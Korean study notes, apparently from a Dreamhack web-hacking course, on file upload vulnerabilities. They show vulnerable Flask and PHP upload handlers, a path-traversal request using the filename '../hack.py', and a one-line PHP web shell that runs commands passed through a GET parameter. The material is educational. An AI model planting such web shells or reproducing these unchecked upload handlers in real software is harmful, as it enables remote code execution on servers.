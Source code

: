 ```yaml
---
layout : single
title : "STAGE8. File Vulnerability (1)"
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 ServerSide : File Vulnerability (1)

-  [x] 웹 셸 업로드 실습
-  [x] 악성 파일 업로드 실습


## ServerSide : File Vulnerability

이미지, 문서 등 파일 공유 서비스를 개발할 때, 이용자가 업로드한 파일을 데이터베이스가 아닌, 서버의 파일시스템에 저장하는 것이 개발하기 더 쉬복, 관리 효율이 높다. 그러나, 이러한 방식은 임의 파일이 다운로드 되는 취약점이나, 악성 웹셸 파일을 업로드하여 임의 코드를 실행할 수 있는 취약점을 발생시키기도 한다. File Vulnerability는 파일 업로드 취약점인  File Upload Vulnerability와 다운로드 취약점인 File Download Vulnerability로 나뉜다. 

- File Upload Vulnerability : 파일 시스템 상 임의 경로에 원하는 파일을 업로드하거나, 악성 확장자를 갖는 파일을 업로드할 수 있을 때 발생한다. 원하는 시스템 커맨드를 실행하는 워격 코드 실행 취약점을 유발할 수 있다

- File Download Vulnerability : 공격자는 웹 서비스의 파일 시스템에 존재하는 임의 파일을 다운로드 받을 수 있으며, 이에는 패스워드 파일, 데이터베이스 백업본 등이 포함되어, 민감한 정보의 탈취 및 2차 공격 수행이 가능하다

## File Upload Vulnerability
웹 서비스를 통해 이용자의 파일을 서버의 파일 시스템에 업로드하는 과정에서 발생하며, 이용자가 업로드될 파일의 이름을 임의로 정할 수 있을 때 발생한다. 파일 이름에 이용자가 입력한 문자열을 그대로 사용하거나, 이용자의 이메일, 닉네임 등을 포함시키는 등의 소스 코드 패턴이 이러한 취약점을 발생시킨다. 

### Path Traversal
파일 업로드를 허용하는 대개의 서비스는 보안을 위해 특정 디렉토리에만 업로드를 허용한다. 이러한 제한이 없다면, 악의적인 이용자가 웹 서버의 소스 코드나 서버에 있는 중요 시스템 파일을 덮어쓸 위험이 있다. Path Traversal은 업로드에 존재하는 이러한 제약을 우회하여, 임의 디렉토리에 파일을 업로드할 수 있는 취약점을 뜻한다.<br>

아래 코드는 Path Traversal 취약점이 있는 코드이다

```python
from flask import Flask, request
app = Flask(__name__)
@app.route('/fileUpload', methods = ['GET', 'POST'])
def upload_file():
	if request.method == 'POST':
		f = request.files['file']
		f.save("./uploads/" + f.filename)
		return 'Upload Success'
	else:
		return """
		<form action="/fileUpload" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" />
			<input type="submit"/>
		</form>
		"""
if __name__ == '__main__':
	app.run()
```

/fileUpload는 POST 요청을 받으면 클라이언트가 전송한 파일을 ./uploads에 저장한다. 이 때 이용자가 입력한 파일 이름 f.file을 그대로 사용하기 때문에, Path Traversal에 취약하다. 예를 들어, 공격자가 ../와 같은 메타문자를 사용한다면, uploads를 벗어나 상위 디렉토리에 파일 업로드할 수 있다.<br>

**정상적인 파일 업로드 HTTP 요청**

```
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
upload test !
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

<br>
위와 같은 정상적인 파일 업로드 HTTP 요청이 전송되면, 아래와 같이, uploads 폴더에 test.txt가 생성된다

```
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```


**악의적인 파일 업로드 HTTP 요청**

```
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="../hack.py"
Content-Type: text/plain
[malicious file content]
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

<br>
위와 같은 악의적인 파일 업로드 HTTP 요청이 전송되면, 아래와 같이, app.py와 같은 디렉토리에 hack.py가 생성된다. hack.py가 app.py를 덮는다면, 서버가 재실행될 때 임의 파이썬 코드를 실행할 수 있을 것이다

```
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
-rw-r--r--  1 dreamhack  staff  431  1 30 22:12 hack.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```

---

### 악성 파일 업로드
악성 파일 업로드 취약점은 이용자가 파일을 업로드할 때 이를 제대로 검사하지 않아서 발생하는 취약점을 뜻한다. 

##### 웹 셸
웹 서버는 .php .jsp, .asp 와 같은 확장자의 파일을 CGI(Common Gatewqy Interface)로 실행하고, 그 결과를 이용자에게 반환한다. <br>
\*웹 셸 : 임의 시스템 명령어를 실행해주는 웹 리소스

```
<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

이는 Apache 설정 파일로, 이용자가 요청한 파일의 확장자가 정규표현식을 만족하면, x-httpd-php로 핸들링하게 한다. x-httpd-php는 PHP 엔진으로, 요청한 파일을 실행하고 결과를 반환하며, .php, .php3, .phtml 의 확장자 파일들이 위 해당 정규표현식을 만족한다. <br><br>
위와 같은 방법으로 php 파일을 핸들링할 경우, 공격자가 임의의 php 파일을 .php 확장자로 업로드하고, GET 요청을 보낼 수 있다면 CGI에 의해 해당 코드가 실행되도록 할 수 있다.

##### 악의적인 웹 리소스
웹 브라우저는 파일의 확장자나 응답의 Content-Type에 따라 요청을 다양하게 처리한다. 요청한 파일의 확장자가 .html 또는, 반환된 Content-Type의 헤더가 text/html일 경우, 응답은 HTML 엔진으로 처리된다. 또한, 파일의 확장자가 .png, .jpg 등의 이미지 확장자이거나, Content-Type이 image/png일 경우에는 이미지로 렌더링 된다. <br><Br>
만약 공격자가 서버에 exploit.html을 업로드하고, 이에 접근하는 URL이 https:// dreamhack.io/uploads/exploit.html 이라면, 브라우저는 이를 HTML로 해석한다. 따라서 exploit.html에 악의적인 스크립트를 삽입하면, Cross-Site-Scripting (XSS) 공격으로 이어질 수 있습니다.

---

### 악성 파일 업로드 실습

악성 파일 업로드 모듈 구성 코드

```php
<?php
if(!empty($_FILES['file'])){
  $filename = "user_uploaded_file_".time();
  $ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
  $path = "./uploads/" . $filename . "." . $ext;
  
  if(move_uploaded_file($_FILES['file']['tmp_name'], $path)) {
    return true; // upload success
  } else {
    return false; // upload fail
  }
}
?>
```

파일 이름을 임의의 파일명 + . + 확장자 로 생성하므로, Path Traversal을 이용한 공격은 불가능하다. 하지만, 이용자가 올린 확장자를 별다른 검사 없이 사용하므로 php 웹셸을 업로드할 수 있다. 또한, html 파일을 업로드하여 Stored XSS를 수행할 수도 있다.<br>

##### 웹 셸 업로드

```php
<?php
  system("ls");
  system($_GET[x]);
?>
```

##### Stored XSS 시도

악성 파일 업로드

<img src = "/images/webbackground/12.png"><br>

업로드 된 파일 실행

<img src = "/images/webbackground/13.png"><br>